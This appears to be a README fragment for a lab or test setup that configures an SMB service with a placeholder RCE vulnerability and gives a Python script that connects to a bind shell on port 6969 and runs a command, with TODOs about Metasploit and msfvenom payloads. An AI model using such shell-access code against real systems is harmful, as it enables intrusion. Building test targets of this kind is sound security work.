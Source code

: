 Remote code execution (RCE).

### Usage

Example config:

```yaml
applications:
  - type: smb
    vulnerabilities:
      - CVE-2024-99999

```

The exploit opens a bind shell listening on `6969`.

### Test with a custom script

```python
import sys
import socket
import time


# TODO: exploit, return address and port of the shell
# TODO: start handler in metasploit
# TODO: execute payload from msfvenom in the bind shell
def create_connection(target, port):
    so = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    so.connect((target, port))
    so.sendall(b":)")
    new = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    for i in range(5):
        try:
            new.connect((target, 6969))
        except:
            time.sleep(1)
    new.sendall(b"ls\n")
    print(new.recv(4096))


if __name__ == '__main__':
    create_connection(sys.argv[1], sys.argv[2])

```

Usage example:
```shell
python3 exploit.py 127.0.0.1 4455
```